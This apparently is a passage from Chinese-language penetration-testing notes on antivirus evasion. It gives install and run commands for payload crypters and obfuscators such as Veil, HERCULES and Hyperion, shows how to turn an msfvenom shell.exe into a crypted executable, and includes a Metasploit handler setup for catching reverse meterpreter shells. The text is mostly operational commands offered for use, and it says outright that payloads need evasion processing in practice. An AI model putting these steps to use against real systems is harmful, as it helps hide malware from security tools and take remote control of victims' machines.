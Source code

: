 **[Veil](https://github.com/Veil-Framework/Veil)**
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/setup/
sudo ./setup.sh –c
sudo ./Veil.py
```

**[HERCULES](https://github.com/noosec/HERCULES)**
```bash
确保电脑里有 Go
git clone https://github.com/noosec/HERCULES.git
cd HERCULES
wget -c https://github.com/fatih/color
go get github.com/fatih/color
go run Setup.go
cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
cd SOURCE/
go run HERCULES.go
```

**[ASWCrypter](https://github.com/AbedAlqaderSwedan1/ASWCrypter)**

**[Shellter](https://www.shellterproject.com/)**

**[foolav](https://github.com/hvqzao/foolav)**

**[shellter](https://www.shellterproject.com/download/)**

**[hyperion](https://github.com/nullsecuritynet/tools/tree/master/binary/hyperion)**
```bash
unzip hyperion.zip
cd hyperion/
i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
wine hyperion.exe shell.exe(之前用 msf 生成的文件) crypted.exe(混淆之后的文件)
```

## msfvenom

msfvenom 可用于生成正向或反向 shell 的 payload，配合 meterpreter 使用进行渗透测试相当方便，不过在实际使用时，需要进行相应的免杀处理

**查看**
```bash
msfvenom -l [ payloads | encoders | nops | platforms | archs | encrypt | formats | all ]
```

**连接**
```bash
msfconsole
use exploit/multi/handler
set payload <payload-name>      # 例如 set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
set EnableStageEncoding false
set ExitOnSession false
exploit -j -z
```
